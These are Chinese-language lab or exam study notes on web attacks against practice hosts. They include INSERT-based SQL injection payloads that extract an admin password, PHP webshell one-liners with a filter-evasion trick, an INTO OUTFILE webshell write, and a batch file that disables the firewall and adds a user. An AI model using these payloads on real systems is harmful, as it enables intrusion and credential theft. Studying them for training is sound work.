添加一项后，新发表的文章没有更新，证明**最后一个字段是usename校验**

```
语法    insert into artical(title,...,content,usename)value('aa','aa','aa')#
```

但是usename之前不知道有几个字段，即前引号不受控制，content不能作为注入点

![image-20241126152316660](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126152316660.png)

usename不是回显点，不能在该页面输出，因此也不能作为注入点

继续验证title字段

```
title=zzz','aaa','a')#&content=aaa       成功

语法    insert into artical(..,title,content,usename)value(...,'zzz','aaa','a')#
```

![image-20241126153208615](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126153208615.png)

证明**title是倒数第三个字段**

即    `title=title,contnet,username#&content=aaa`, 其中content可作为**注入点**

```
title=zzz',database(),'a')#&content=aaa     执行成功
```

爆数据库名

![image-20241126154612526](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126154612526.png)

爆表时失败，是因为对**+没有替换为空格**

![image-20241126155016110](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126155016110.png)

使用插件进行爆表名、列名

```
SELECT GROUP_CONCAT(column_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME=0x757365727331
```

最后数据爆破，可以直接爆password

![image-20241126160428547](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126160428547.png)

也可以爆admin用户的password

```
SELECT password FROM 2web.users1 WHERE username=‘admin’
```

![image-20241126161520496](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126161520496.png)

#### 方式二：注释过滤，insert构造多条语句插入，使用')或者'(进行后闭合

insert into artical(...,title,content,usename)value(...,'zzz','aaa','a'),('',...,'','','')

insert into artical(...,title,content,usename)value(...,'**`','',''),('`**',...,'','')

因为title之前有几个字段未知，所以在后闭合中对于前面是否有字段要进行碰撞

![image-20241126165349230](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126165349230.png)

第一次碰撞失败，给title之前加一列`‘’`继续

![image-20241126164801256](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126164801256.png)

第二次碰撞成功，即一共是四个字段

接下来和之前一样进行数据库的爆破即可获得key

![image-20241126165604968](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126165604968.png)

### 34012 文件上传

![image-20241126165749801](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126165749801.png)

上传逻辑

http://11.1.10.12:34012/vulnerabilities/pic.jpg

此题过滤点：eval关键字、php后缀

补充木马：

```
<?php assert($_POST['x']); ?>
```

```
<?php 
$z=base64_decode('YXNzZXJ0');$z=($_POST['x']);
?>

//YXNzZXJ0这里是assert的base64编码，但是不能替换为eval的编码，关键字不能进行编码调用！！！
```

- 区别：
  函数：assert、preg-replace、base64_decode
  关键字：eval、if、echo、inclide

### 34015 验证码爆破

![image-20241126173337002](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126173337002.png)



**空身份认证信息对应空验证码**

![image-20241126173848226](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126173848226.png)

抓包发送至攻击器

![image-20241127200235112](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241127200235112.png)

**删cookie、**即sessionid=空，整行删除**不留换行**

**删code=的内容 **    即code=空 

**只保留password变量**

进行爆破

![image-20241126180125824](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126180125824.png)

## 真题（综合）

### 11.1.10.71-76

一、basic认证爆破，KEY6:8dn39sqx

二、

-   直接爆破用户名密码
-   bp目录爆破(①变量包含/，②取消URL编码防止/转义)，robots文件包含.sql文件直接拼接访问，查找admin找到MD5加密密文，使用MD5爆破工具爆破密码，得到密码登入

图片上传，利用401 (Hearer中提交basic信息）认证蚁剑登录服务器，网站根目录下，key7:new4e7qs

三、上传3389.bat，开启远程访问，关闭防火墙，新建账号密码————回收站恢复文件

![image-20241126210647486](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126210647486.png)



```
3389.bat

netsh firewall set opmode disable

net user xxx xxx
```

### 11.1.10.81-86

一、ip、端口扫描

二、爆破用户名密码，在单个变量中自定义进行爆破

![image-20241126223858681](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126223858681.png)

![image-20241127223834078](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241127223834078.png)

三、静态页面伪造`/xxx`爆破目录，robots得到key6和/news/禁访目录

![image-20241126224336437](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126224336437.png)

![image-20241126224943234](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126224943234.png)

![image-20241126225108302](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126225108302.png)

扫描/news/子目录

![image-20241126230754826](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126230754826.png)

找到相应的留言系统后台/news/phpmydamin/index.php

![image-20241126231631607](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126231631607.png)

![image-20241126232112032](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126232112032.png)

找到admin密码，先备份防止找错及时恢复原数据，

然后在数据库编辑中修改密码，执行两次MD5解密，登录成功

![image-20241126233536039](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126233536039.png)

知道绝对路径，则可以进行sql写马

```
select '<?php @eval($_POST["x"]); ?>' into outfile 'C:/wamp/www/shell.php'
```

访问http://11.1.10.83:125/shell.php成功，蚁剑连接

![image-20241126234616566](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126234616566.png)

远程登录，开启远程服务、关防火墙、改密码，得到key8

![image-20241126235617775](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126235617775.png)
